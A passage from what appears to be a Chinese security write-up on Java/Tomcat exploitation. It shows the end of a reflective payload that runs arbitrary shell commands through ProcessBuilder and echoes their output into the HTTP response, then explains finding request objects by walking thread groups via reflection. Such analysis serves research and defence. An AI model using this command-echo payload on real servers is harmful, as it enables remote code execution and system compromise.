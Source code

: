 ```java
                    resp.getClass().getMethod("setStatus", new Class[]{int.class}).invoke(resp, new Object[]{new Integer(200)});
                    String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", str} : new String[]{"/bin/sh", "-c", str};
                    byte[] result = (new java.util.Scanner((new ProcessBuilder(cmds)).start().getInputStream())).useDelimiter("\\A").next().getBytes();
                    try {
                        Class cls = Class.forName("org.apache.tomcat.util.buf.ByteChunk");
                        obj = cls.newInstance();
                        cls.getDeclaredMethod("setBytes", new Class[]{byte[].class, int.class, int.class}).invoke(obj, new Object[]{result, new Integer(0), new Integer(result.length)});
                        resp.getClass().getMethod("doWrite", new Class[]{cls}).invoke(resp, new Object[]{obj});
                    } catch (NoSuchMethodException var5) {
                        Class cls = Class.forName("java.nio.ByteBuffer");
                        obj = cls.getDeclaredMethod("wrap", new Class[]{byte[].class}).invoke(cls, new Object[]{result});
                        resp.getClass().getMethod("doWrite", new Class[]{cls}).invoke(resp, new Object[]{obj});
                    }
                    flag = true;
                }
                if (flag) break;
            }
            if (flag)  break;
        }catch(Exception e){
            continue;
        }
    }
```

----

### Thread

1、每个Java应用程序都有一个执行Main()函数的默认主线程。**这个就是主线程**
2、应用程序也可以创建线程在后台运行。Java主要是通过Java.Lang.Thread类以及Java.lang.Runnable接口来实现线程机制的。**这边所有的都是其余线程**

在Java的反射中，get方法是可以获取该字段对应的对象，但有一定的条件。ps：在文末补充知识点补充

```
 		// 获取当前线程组
        ThreadGroup group = Thread.currentThread().getThreadGroup();
        // 反射获取字段threads
        java.lang.reflect.Field f = group.getClass().getDeclaredField("threads");
        f.setAccessible(true);
        // f.get(group) 获取 threads 线程中数组对象
        Thread[] threads = (Thread[]) f.get(group);
```

开启一个spring boot 服务，debug看一下流程。

![image-20210621171304714](https://raw.githubusercontent.com/SummerSec/Images/main/summersec//4u13er4ec/4u13er4ec.png)
